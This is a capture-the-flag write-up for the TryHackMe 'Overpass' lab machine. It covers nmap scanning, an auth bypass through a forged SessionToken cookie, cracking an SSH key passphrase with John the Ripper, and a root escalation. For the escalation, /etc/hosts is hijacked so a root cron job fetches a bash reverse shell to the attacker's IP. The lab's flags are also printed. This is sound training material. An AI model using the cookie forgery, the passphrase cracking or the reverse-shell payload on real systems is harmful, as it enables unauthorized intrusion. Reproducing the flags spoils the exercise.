

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Starting off with some `nmap` scans:
```shell-session
$ sudo nmap -sV -vv --top-ports 2000 -oN nmap_scan.txt 10.10.127.231
...

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Vuln script scan:
$ sudo nmap -sC -vv --script=vuln -p22,80 -oN nmap_vulnscan.txt 10.10.127.231
...
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|   /admin.html: Possible admin folder
|   /css/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-jsonp-detection: 
| The following JSONP endpoints were detected: 
|_/main.js
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

Nothing interesting in the results from the `vuln` script. Visiting the `/downloads/` page for the target, we're presented with some download options, one of which allows us to download the source code for the password manager. The source code gives us the following information:

1. The password manager encrypts it's passwords using `ROT47`.
2. The program stores all the passwords on the machine rather than a remote server.

This aside, we can probably try to brute force the `/admin/` login page, but that's a waste of time. Inspecting the `/admin/` page shows that it uses 3 files: `main.js`, `cookie.js` and  `login.js`. Upon further inspection of `login.js` we come across the `login()` function:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The function's logic dictates that if the credentials supplied are valid, it sets the `SessionToken` cookie. We can exploit this behavior (given that the server doesn't validate the cookie) by editing the cookie. Once we set the `SessionToken` cookie to some random stuff, we're taken to the following page:


We now have a ssh private key as well as a username to go with (`james`). We can use `ssh` to log into the machine as James.

## Gaining Access

The ssh key given also requires a passphrase, we'll try to bruteforce it using `ssh2john`:
```shell-session
$ ssh2john sshkey.rsa > sshkey.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ./sshkey.hash
...
james13          (sshkey.rsa)
```

With this passphrase, we can now `ssh` into the machine as james:
```shell-session
$ ssh -i sshkey.rsa james@10.10.127.231
Enter passphrase for key 'sshkey.rsa':
...

james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```

And thus, we have the user flag!
>  Hack the machine and get the flag in user.txt 
> 
> Answer: `thm{65c1aaf000506e56996822c6281e6bf7}`

## Privilege Escalation

With access to the machine as james, we can move onto getting root privileges. Let's have a look at the `todo.txt` file in James' home directory:
```shell-session
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

For the getting root privileges, we can make use of the convenient `LinPeas` script:
```shell-session
james@overpass-prod:~$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
...

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

There's a `cron` job that runs as root. Unfortunately we cannot edit this script with the current user's privileges. We can, however, redirect the domain `overpass.thm` to something else and hijack the process from there:
```shell-session
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.14.45.44 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Editing the `/etc/hosts` file and redirecting the overpass.thm domain to our own machine, we can make the cron job download a custom script (a reverse shell in this case) and execute it as root. 
```shell-session
# On our machine:
$ mkdir -p downloads/src 
$ cd downloads/src
$ echo "bash -i >& /dev/tcp/10.14.45.44/4444 0>&1" > buildscript.sh
$ chmod +x /downloads/src/buildscript.sh
$ python3 -m http.server 80 

# In a different teminal session:
$ nc -nvlp 4444
root@overpass-prod:~# whoami
root

root@overpass-prod:~# ls
buildStatus
builds
go
root.txt
src

root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

> Escalate your privileges and get the flag in root.txt
> 
> Answer: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Overpass](https://tryhackme.com/room/overpass)
